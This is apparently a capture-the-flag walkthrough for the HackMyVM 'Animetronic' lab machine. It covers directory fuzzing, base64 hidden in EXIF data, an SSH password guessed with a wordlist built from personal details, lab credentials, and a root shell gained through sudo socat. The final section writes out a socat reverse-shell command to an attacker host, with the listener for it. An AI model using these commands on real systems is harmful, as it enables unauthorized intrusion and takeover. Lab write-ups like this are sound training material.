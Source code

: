 # Animetronic - A HackMyVM Machine

## Enumeration
MACHINE IP: `***MACHINE IP***`

On bruteforcing subdomains we get the following:
1. js
2. css
3. img
4. staffpages
5. server-status

staffpages is 403 forbidden but by using a tool called 403bypasser we get this output

```
GET --> http://192.168.0.104                                                                        STATUS: 200 SIZE: 2384
Header= {'X-Original-URL': '/staffpages'}

GET --> http://192.168.0.104                                                                        STATUS: 200 SIZE: 2384
Header= {'X-Rewrite-URL': '/staffpages'}
```

So let's add these headers in burpsuite and see if we can gain access to this page.

This didnt work. But fuzzing subdomains in the /startpages directory revealed a `new_employees` page.

We find an image here. Now we can save this image and use exiftool to get its exif data.

```
ExifTool Version Number         : 12.76
File Name                       : new_employees.jpeg
Directory                       : .
File Size                       : 160 kB
File Modification Date/Time     : 2024:05:05 11:24:09+05:30
File Access Date/Time           : 2024:05:05 11:24:09+05:30
File Inode Change Date/Time     : 2024:05:05 11:24:09+05:30
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Comment                         : page for you michael : ya/HnXNzyZDGg8ed4oC+yZ9vybnigL7Jr8SxyZTJpcmQx53Xnwo=
Image Width                     : 703
Image Height                    : 1136
Encoding Process                : Progressive DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 703x1136
Megapixels                      : 0.799
```
By decrypting this, which is just base64, we get this: ***ɯǝssɐƃǝ‾ɟoɹ‾ɯıɔɥɐǝן***

Now, this is just the string `message_for_michael` written upside down.

Navigating to the `/staffpages/message_for_michael/` directory we get some stuff written there.

And, it says that there is a file called `personal_info.txt`

Let's see what's in it.

*File contents*:

```
name: Michael

age: 27

birth date: 19/10/1996

number of children: 3 " Ahmed - Yasser - Adam "

Hobbies: swimming 
```
## Initial Access

On reading the file, I get a hunch that what we're looking at is a way to bruteforce the ***ssh*** login.
I am going to simply assume that the username is michael.
So we need to come up with a wordlist to try and guess the password, based on what we have here in `personal_info.txt`

After Generating a wordlist with *cupp.py* we get the credentials
***michael:leahcim1996***

On log in, you can cd to the <u>henry</u> home file, which gives the *user flag*.

Now, on reading the Note.txt file, and decrypting the given base64 string, we get that the password is stored in <u>henrypassword.txt</u>.

The new obtained credentials are as follows:
***henry:IHateWilliam***

Log in as henry.

## Privilege Escalation

By running:
 
```bash
sudo -l
```

We find that *socat* can be run as root. So let's spawn a reverse shell, so that we can get a root shell out of it.

On the target machine run this command:

```bash
sudo socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:attacker_ip:attacker_port
```

And on the attacker machine run:

```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

This will spawn a root shell and allow us to gain access as *root*.

